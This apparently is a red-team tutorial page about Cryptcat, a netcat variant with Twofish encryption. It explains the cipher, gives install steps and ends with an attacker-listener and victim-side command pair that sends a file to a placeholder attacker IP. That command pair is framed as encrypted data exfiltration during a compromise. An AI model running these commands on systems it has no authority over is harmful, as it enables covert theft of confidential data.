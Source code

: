 ```yaml
---
layout: single
title: CryptCat
excerpt: "Cryptcat is the standard netcat enhanced with twofish encryption"
date: 05-09-2021
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/84678370/132143242-6bd61e35-f093-4fb0-a750-f875e13cf73a.jpeg"
  teaser_home_page: true
  icon: "https://static.thenounproject.com/png/81023-200.png" 
categories:
  - Data-Exfiltration
tags:
  - Networking
  - Transfer
---
```


<img src= "https://user-images.githubusercontent.com/84678370/132143242-6bd61e35-f093-4fb0-a750-f875e13cf73a.jpeg" width="300" height="200" />

- - <a href="https://tools.kali.org/maintaining-access/cryptcat" style="color:bluesky">__CryptCat Tools-Kali__</a>
- - <a href="http://cryptcat.sourceforge.net/" style="color:bluesky">__CryptCat-SourceForge__</a>
- - <a href="https://www.schneier.com/academic/twofish/" style="color:bluesky">__Twofish__</a>
- - <a href="https://sourceforge.net/projects/cryptix/" style="color:bluesky">__Cryptix__</a>
- - <a href="https://sourceforge.net/projects/cryptcat/files/cryptcat-win-1.2/cryptcat-win-1.2.1/" style="color:bluesky"> __CryptCat Windows__ </a>

> `Cryptcat` is the standard `netcat` enhanced with `twofish` `encryption` with ports for WIndows NT, BSD and Linux. Twofish is courtesy of `counterpane`, and `cryptix`.

> Cryptcat is a simple Unix utility which reads and writes data across network connections, using `TCP` or `UDP` protocol while `encrypting` the data being transmitted. It is designed to be a reliable `"back-end"` tool that can be used directly or easily driven by other programs and scripts. At the same time, it is a feature-rich network `debugging` and exploration tool, since it can create almost any kind of connection you would need and has several interesting built-in capabilities. 

### <span style="color:green"> __Secure Transfer__ </span>

> There are several reasons why we should use `Cryptcat`, one of them is because of its `TwoFish` cipher developed by `Counterpane Labs`. 

> As you can imagine, in a `red team` compromise, you may encounter `private` / `confidential` data, which can be of `much` value to a red team (not to mention cybercriminals), when doing `data exfiltration`, you have to be `sure` of how you are going to operate, you have to keep in mind that there may also be a third party `intercepting` your connection, A perfect reference is when you use `TunnelShell` to create a covert channel, you are not `encrypting` any kind of connection, if somehow, some third party manages to find that connection, they could `monitor` you and `steal` your data at the same time you do the `exfiltration`, which would be devastating. That is why cryptography is used in any kind of connection.

### <span style="color:green"> __TwoFish__ </span> 

- - <a href="https://en.wikipedia.org/wiki/Twofish" style="color:bluesky"> __Wikipedia__ </a>

> Twofish is a `symmetric` cryptography method with `block` encryption. The block size in Twofish is `128 bits` and the key size can go up to `256 bits`.

> Designed by `Bruce Schneier`, `John Kelsey`, `Doug Withing`, `David Wagner`, `Chris Hall` and `Niels Ferguson`.

> The distinguishing features of Twofish are the use of `precomputed` `S-boxes` with `dependent` keys and a relatively complex `key-schedule`. 

### <span style="color:green">__Install__</span>

```
sudo apt-get update
sudo apt-get install cryptcat 
```

### <span style="color:green"> __CryptCat Usage__ </span>

> Now let's see how to use Cryptcat, for this example we will simply transfer a file.

<img src= "https://user-images.githubusercontent.com/84678370/132144833-f4521e4b-a156-4da1-b8e7-180ec2270c7b.png" width="1100" height="1100" />

> Attacker Machine
 
```
cryptcat -l -p 443 -n > file
```

> Victim Mahcine

```
cryptcat <ip> 443 < file
```


> `-l` / listen mode, for inbound connects

> `-P` / local port number

> `-n` / numeric-only IP addresses, no DNS

---
